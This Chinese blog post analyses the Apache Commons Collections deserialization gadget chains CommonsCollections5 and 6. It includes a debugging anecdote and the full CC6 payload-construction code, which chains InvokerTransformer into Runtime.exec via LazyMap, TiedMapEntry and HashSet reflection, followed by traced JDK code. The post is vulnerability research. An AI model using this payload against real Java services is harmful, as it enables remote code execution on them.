



这篇博客介绍CommonsCollections5、6的构造方式，Apache的这个jar包（版本3.1、4.0）总算要分析完了。这两个java文件都利用了`org.apache.commons.collections`下的`TiedMapEntry`和`LazyMap`两个类。不同的是5在外层利用了`BadAttributeValueExpException`类，而6利用了`HashSet`类。

<!-- more -->

## CommonsCollections5的Payload构造方式

其实，CommonsCollections5的代码正是本系列第一篇[https://l1nf3ng.github.io/2019/03/27/Java反序列化漏洞解析/](https://l1nf3ng.github.io/2019/03/27/Java反序列化漏洞解析/) 所讲的那个构造方式，主要针对jdk8u60之后`sun.reflect.annotation.AnnotationInvocationHandler `这个类被删除的情况。其调用链这里不再重复分析，值得一提的是这次重新分析的过程中的乌龙事件：

> 我在IDEA的debug下给`javax.management.BadAttributeValueExpException`的`readObject()`方法打了断点，如下图：
>
> 
>
> 我发现代码在过了第一个断点后就弹出了计算器，一开始我怀疑之前看的分析文章都搞错了。后来仔细观察发现，在debug的变量观察窗口里的`TiedMapEntry`对象已经被调试器做了解析：
>
> 
>
> 所以，我的猜测是调试器的查看变量功能的进/线程在做解析时会去尝试get每个Map的Key-Value值，这就提前触发了利用链（为了验证这一猜测，我调整了一下CommonsCollections5的payload构造方法里代码的顺序，并打上断点观察其运行结果——发现调试器真得会去解析Map类对象，从而提前触发了攻击链）。
>
> 
>
> 因此，我去掉之前的断点，将新断点打在`LazyMap.get()`方法中，这次调用链没有提前触发，观察已经走过的调用栈也是对的，最后单步那行代码的确弹出了计算器！
>
> 

所以，以后分析和调试代码时还是要细心才行，不然很容易搞错。

## CommonsCollections6的Payload构造方式

```java
/*	我还是偷懒地先贴代码
*/
public Serializable getObject(final String command) throws Exception {

    final String[] execArgs = new String[] { command };

    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
        new InvokerTransformer("exec",
                               new Class[] { String.class }, execArgs),
        new ConstantTransformer(1) };

    Transformer transformerChain = new ChainedTransformer(transformers);

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

    HashSet map = new HashSet(1);
    // add(E e)方法将(e, Object())添加到map内部的"map"字段中
    map.add("foo");
    Field f = null;
    try {
        // "map"是HashSet内部的类型为HashMap<E,Object>的字段
        // 因为被定义为transient，所以不参与序列化
        f = HashSet.class.getDeclaredField("map");
    } catch (NoSuchFieldException e) {
        f = HashSet.class.getDeclaredField("backingMap");
    }

    f.setAccessible(true);
    // 获取map对象的“map”字段值
    HashMap innimpl = (HashMap) f.get(map);

    Field f2 = null;
    try {
        // "table"是HashMap内部类型为Node<K,V>的数组
        // Node是HashMap的一个内部静态类，也是用来存储Key-Value值
        // 因为被定义为transient，所以不参与序列化
        f2 = HashMap.class.getDeclaredField("table");
    } catch (NoSuchFieldException e) {
        f2 = HashMap.class.getDeclaredField("elementData");
    }

    f2.setAccessible(true);
    // 获取innimpl对象的“table”字段值
    Object[] array = (Object[]) f2.get(innimpl);
	// 获取table中第一个不为空的节点
    Object node = array[0];
    if(node == null){
        node = array[1];
    }

    Field keyField = null;
    try{
        // 获取Node类型的"key"字段
        keyField = node.getClass().getDeclaredField("key");
    }catch(Exception e){
        keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
    }

    keyField.setAccessible(true);
    // 将该node节点的key值设置成TiedMapEntry的对象entry
    keyField.set(node, entry);
    
    return map;

}
```

因此，在经历上述构造后，最终的Payload长这个样子：


### `HashSet`类

我们再看看反序列化的过程，首先分析下`HashSet`类的代码：

```java
/*	HashSet.java
*/

public HashSet(int initialCapacity) {
    map = new HashMap<>(initialCapacity);
}

private static final Object PRESENT = new Object();
public boolean add(E e) {
    return map.put(e, PRESENT)==null;
}

private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
	* * * *

    // Read size and verify non-negative.
    int size = s.readInt();
    
    * * * * 
        
    // Create backing HashMap
    map = (((HashSet<?>)this) instanceof LinkedHashSet ?
           new LinkedHashMap<E,Object>(capacity, loadFactor) :
           new HashMap<E,Object>(capacity, loadFactor));

    // Read in all elements in the proper order.
    for (int i=0; i<size; i++) {
        @SuppressWarnings("unchecked")
        // 这里反序列化的第一个类就是TiedMapEntry对象
        E e = (E) s.readObject();
        // 将该对象e作为key放入数组
        map.put(e, PRESENT);
    }
}
```

### `HashMap`类

在进行`put()`时就进入了HashMap的方法，代码如下：

```java
/*	HashMap.java
*/
public V put(K key, V value) {
    // 其中又调用了hash()方法
    return putVal(hash(key), key, value, false, true);
}

static final int hash(Object key) {
    int h;
    // 这里又调用了key对象的hashCode()方法，也就是TiedMapEntry对象
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

接着跟进TiedMapEntry类型的`hashCode()`方法：

```java
/*	TiedMapEntry.java
*/
public int hashCode() {
    // 在这里调用其getValue()方法
    Object value = getValue();
    return (getKey() == null ? 0 : getKey().hashCode()) ^
        (value == null ? 0 : value.hashCode()); 
}

public Object getValue() {
    return map.get(key);
}
```

跟到这一步，剩下的调用链就和CommonsCollections5的后半部分完全一样了。

最后我在`InvokerTransformer.transform()`处打了断点，开启调试模式，就可以看到完整调用栈。对，就是这么懒(*￣rǒ￣)！


